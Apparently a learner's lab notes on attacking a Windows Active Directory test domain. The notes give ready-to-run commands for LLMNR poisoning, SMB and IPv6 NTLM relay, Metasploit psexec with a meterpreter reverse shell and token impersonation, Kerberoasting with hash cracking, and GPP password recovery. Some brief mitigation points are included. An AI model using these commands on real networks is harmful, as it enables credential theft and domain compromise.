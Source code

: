 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 Token Impersonation** \
**5 MS17-010** \
**6 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -I eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3 ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

**4. Token Impersonation:**
```
msfconsole use exploit windows/smb/psexec 
msfconsole set smbdomain carbon.local set smbpass Password!1 set smbuser e.triage set rhost 192.168.86.206 set target 2(Native Upload)
set payload /windows/x64/meterpreter/reverse_tcp set lhost eth0 run
```
```
`meterpreter> hashdump, getuid, sysinfo`
`meterpreter> load <tab> incognito`
`meterpreter> help - `
`meterpreter> list_tokens`
`meterpreter> impersonate_token CARBON\\e.triage`
`meterpreter> shell`
`C:\Windows\system32> whoami :: carbon\e.triage`
```

***if hashdump run now - will throw errors :: to fix "rev2self" see ![revert_2_self](Screenshots/rev2selfpng.png)***
***Token is there until computer is reboot***

**Mitigation strategy::** 
+ Limit User/Group token creation permissions
+ Account tiers - Domain admin's should only be logging into DC's
+ Local admin restriction

---

**5. Kerberoasting:** Goal:: Get TGS and decrypt server's account hash (tgs may be hint). See ![kerberoasting](Screenshots/kerberoasting.png)
  1. User -> DC  :: Request TGT. Provide NTLM hash
  2. DC -> User  :: Receive TGT enc w/ krbtgt hash
  3. User -> DC  :: Request TGS for Server (Presents TGT)
  4. DC -> User  :: Receive TGS ecn w/ server's account hash (TGS received)
  5. User -> App :: Present TGS for service enc w/ server's account
  6. App -> User :: Used when mutual Authentication is required
  7. App -> DC   :: PAC Validation Request Optional
  8. App -> DC   :: PAC Validation Response Optional

  
```
/opt/impacket/examples# GetUsersSPNs.py Carbon.local/e.triage:'Password!1' -dc-ip <ip-DC> -request -outputfile hashes.kerbroast
```

```
PS C:\Users\e.triage> klist get host/ETHYL <computer name>
#0>     Client: e.triage @ CARBON.LOCAL
        Server: krbtgt/CARBON.LOCAL @ CARBON.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 12/24/2021 13:17:39 (local)
        End Time:   12/24/2021 23:17:39 (local)
        Renew Time: 12/31/2021 13:16:38 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: Oxytocin-DC.Carbon.local
```

```

hashcat -m 13100 hashes.kerbroast /usr/share/wordlists/rockyou.txt -O #13100 is Kerberos TGS module
```

**6 GPP Attacks:**
  1. Group Policy Preferences allows admins to create policies w/ embedded creds
  2. creds encrypted and placed in a "cPassword"
  3. key accidentally released
  4. Patched in MS14-025 - doesnt prevent previous uses (Server 2012). 
  5. msf auxiliary (smb_enum_gpp) #to check for GPP vuln



---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6) \
[GPP_extras] (https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage)